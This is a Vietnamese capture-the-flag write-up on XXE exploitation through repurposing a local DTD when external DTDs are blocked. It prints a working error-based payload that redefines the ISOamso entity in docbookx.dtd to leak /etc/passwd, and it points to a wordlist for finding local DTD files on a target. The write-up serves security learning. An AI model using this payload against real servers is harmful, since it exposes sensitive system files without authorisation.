 ![image](https://github.com/user-attachments/assets/1ebb810f-a559-4d97-9843-c38102b855af)

![image](https://github.com/user-attachments/assets/e84d8eda-b196-424f-88af-d748a534c961)

![image](https://github.com/user-attachments/assets/7947f8fa-ecb3-4804-80f9-e289d9dd7fcf)

Ta nhận thấy challenge này có lỗ hổng xxe nhưng lại không cho dùng external dtd, vì vậy chúng ta hãy dùng internal xem sao.

![image](https://github.com/user-attachments/assets/64f9a0d1-2cbd-49c4-b6b3-cab9a28d8573)

1 sai lầm khi dev v:, giờ chúng ta hãy thử lợi dụng nó xem sao.

![image](https://github.com/user-attachments/assets/14ebe884-0118-4ca3-9ef4-7c93a63ae01e)

Bạn có để ý không, khi nó có file đó và khi nó không có thì response nó khác đúng chứ, vậy thì ta có thể khẳng định chắc là ta có thể khai thác được.

Ở đây, Hint chỉ ra rằng hệ thống có 1 DTD tại `/usr/share/yelp/dtd/docbookx.dtd` có chứa 1 entity tên `ISOamso`

Tiến hành chui vào xem.

![image](https://github.com/user-attachments/assets/55b2941a-6b4e-485b-90d2-5742e63fbe62)

Đúng là có thiệt, vậy câu hỏi đặt ra là lỡ sau này mình gặp web khác thì lúc đó làm gì có hint của challenge, làm sao ta tìm đc?

Ta kiếm seclisst và fuzz thoi v:

Đây là seclist mà tôi tìm được nè:

```
https://github.com/GoSecure/dtd-finder/blob/master/list/dtd_files.txt
```

Giải quyết được vấn đề này rồi nhé, tiến hành khai thác.

Payload:

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Parameter entity local_dtd chứa nội dung tệp `/usr/share/yelp/dtd/docbookx.dtd` là local DTD trên server.

Parameter entity ISOamso chứa định nghĩa: parameter entity file chứa nội dung tệp `/etc/passwd`, parameter entity eval chứa định nghĩa parameter entity error chứa nội dung /etc/passwd sau khi tham chiếu tới %file;
Gọi tham chiếu các entity.

![image](https://github.com/user-attachments/assets/c5f2c0b8-5491-4da4-a84f-6a92bf491739)


Kẻ tấn công có thể lợi dụng local DTD và kết hợp với internal DTD để kích hoạt các lỗi phân tích cú pháp XML, từ đó rò rỉ dữ liệu nhạy cảm. Kỹ thuật này rất hữu ích khi out-of-band connections bị chặn, tức là kẻ tấn công không thể tải external DTD từ một server từ xa.

Để thực hiện tấn công này, kẻ tấn công cần tìm ra một local DTD file phù hợp trên server. Điều này có thể thực hiện bằng cách thử tải các DTD file khác nhau từ internal DTD và kiểm tra các thông báo lỗi trả về. Ví dụ: trên các hệ thống Linux sử dụng GNOME, thường có một DTD file tại /usr/share/yelp/dtd/docbookx.dtd.

**Giải thích chi tiết payload**

```
Định nghĩa một XML parameter entity (local_dtd):

<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">:

Đây là định nghĩa của một parameter entity tên là %local_dtd. Nó trỏ tới một local DTD file nằm trên hệ thống máy chủ tại đường dẫn /usr/share/yelp/dtd/docbookx.dtd.
Mục đích của việc này là để tải nội dung của DTD file này vào trong tài liệu XML hiện tại.

Redefine entity ISOamso:

<!ENTITY % ISOamso '...'>: Đây là một parameter entity khác được định nghĩa lại với tên %ISOamso. Nội dung của nó chứa các entity khác để khai thác lỗi phân tích cú pháp:

<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">:

Định nghĩa một parameter entity %file trỏ tới nội dung của file /etc/passwd trên hệ thống máy chủ.
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">:

Định nghĩa một parameter entity %eval chứa mã để gây ra một lỗi phân tích cú pháp. Lỗi này sử dụng một đường dẫn không tồn tại (file:///nonexistent/%file;), nơi mà %file trỏ tới nội dung của file /etc/passwd.
&#x25;eval; và &#x25;error;:

Đây là các tham chiếu tới parameter entity %eval và %error. %eval sẽ được thay thế bằng mã khai thác lỗi, và %error sẽ được xử lý, gây ra lỗi phân tích cú pháp.

Thực thi local DTD và kích hoạt lỗi:

%local_dtd;:

Sau khi định nghĩa các entity cần thiết, %local_dtd; được sử dụng để chèn nội dung của file local DTD (docbookx.dtd) vào tài liệu XML. Việc này sẽ include (bao gồm) tất cả các entity đã được định nghĩa lại.

Khi parser XML xử lý nội dung này, nó sẽ cố gắng thực thi các entity %eval và %error, dẫn đến lỗi phân tích cú pháp.
```

1. Xử Lý Entities Đã Định Nghĩa:
   
    Khi kẻ tấn công sử dụng một entity đã được định nghĩa sẵn trên server (như %local_dtd trong ví dụ của bạn), hệ thống có thể tin rằng các entities này đã được kiểm tra và không cần kiểm tra thêm, vì chúng đã tồn tại và được định nghĩa hợp lệ trên máy chủ.

3. Lỗ Hổng Do Không Kiểm Tra Toàn Bộ:

    Việc chỉ kiểm tra các entities đã có sẵn và bỏ qua các entities redefine có thể tạo ra lỗ hổng bảo mật. Kẻ tấn công có thể khai thác lỗ hổng này bằng cách redefine các entities cục bộ theo cách tạo ra lỗi hoặc truy xuất dữ liệu nhạy cảm.

